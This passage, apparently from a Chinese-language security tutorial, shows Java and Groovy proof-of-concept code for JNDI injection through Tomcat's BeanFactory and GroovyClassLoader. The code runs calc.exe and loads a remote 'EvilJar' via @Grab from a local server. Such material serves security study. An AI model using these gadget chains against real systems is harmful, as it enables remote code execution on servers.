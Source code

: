 ```java
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parseClass"));
        String s = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef x\n", "calc.exe");
        ref.add(new StringRefAddr("x", s));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
    }
}
```

###### 另一个方法

> 在`GroovyClassLoader`中仍然存在另一个方法`addClasspath` `loadClass`可以满足条件且利用

```java
Registry registry = LocateRegistry.createRegistry(9999);
ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "x=addClasspath,y=loadClass"));
String s = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef x\n", "calc.exe");
ref.add(new StringRefAddr("x", "http://127.0.0.1:9999"));
ref.add(new StringRefAddr("y", "EvilGroovy"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```

```groovy
// EvilGroovy.groovy
@groovy.transform.ASTTest(value={assert 
    java.lang.Runtime.getRuntime().exec("calc")})
class Person{}
```

##### Groovy相关的其他方法

###### 使用@Grab注解加载远程恶意类

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIGroovyClassLoader1 {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parseClass"));
        //String s = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef x\n", "calc.exe");
        ref.add(new StringRefAddr("x", "@GrabConfig(disableChecksums=true)\n" +
                "    @GrabResolver(name=\"Poc\", root=\"http://127.0.0.1:8888/\")\n" +
                "    @Grab(group=\"Poc\", module=\"EvilJar\", version=\"0\")\n" +
                "    import java.lang.String"));
```